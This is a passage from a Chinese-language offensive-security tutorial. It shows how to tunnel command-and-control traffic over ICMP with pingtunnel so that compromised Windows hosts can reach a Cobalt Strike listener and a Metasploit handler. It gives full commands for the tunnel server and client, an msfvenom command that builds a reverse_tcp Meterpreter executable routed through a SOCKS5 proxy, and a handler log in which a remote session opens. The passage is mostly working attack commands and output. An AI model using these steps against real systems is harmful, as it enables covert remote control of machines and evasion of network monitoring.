 - 准备好一个具有公网 IP 的服务器，root 权限运行以下命令，启动 ICMP 隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP 隧道客户端（即需要通过 ICMP 隧道上线的主机）执行以下命令即可成功创建反向 ICMP 隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```

- cobaltstrike 创建 listener
  https host 和 https port(c2)为 ICMP 隧道客户端的监听 IP 和端口
  https port(bind)为转发目的地址的端口

- 生成反向 payload 的 beacon

- 上传生成的 beacon 到 ICMP 隧道客户端执行，成功通过反向 ICMP 隧道上线

#### 转发 socks 上线 msf（失败）

> 按理说是这样的，但是流量里还是有 tcp

- 准备好一个具有公网 IP 的服务器，root 权限运行以下命令，启动 ICMP 隧道服务端

```shell
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP 隧道客户端（即需要通过 ICMP 隧道上线的主机）执行以下命令即可成功创建反向 ICMP 隧道

```shell
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1
# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
# icmpserver_ip 192.168.1.10
```

生成支持 socks5 代理的反向 payload 的 meterpreter 并上传到 ICMP 隧道客户端执行即可上线

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe
# c2_server_ip 192.168.1.10
```

启动 msf 监听，等待 meterpreter 执行上线

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6688
lport => 6688
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:6688
[*] Sending stage (200774 bytes) to 192.168.1.11
[*] Meterpreter session 4 opened (192.168.1.10:6688 -> 192.168.1.11:59957) at 2024-01-16 02:17:38 -0500

meterpreter > getuid
Server username: ECHO0D-WIN\echo0d
```
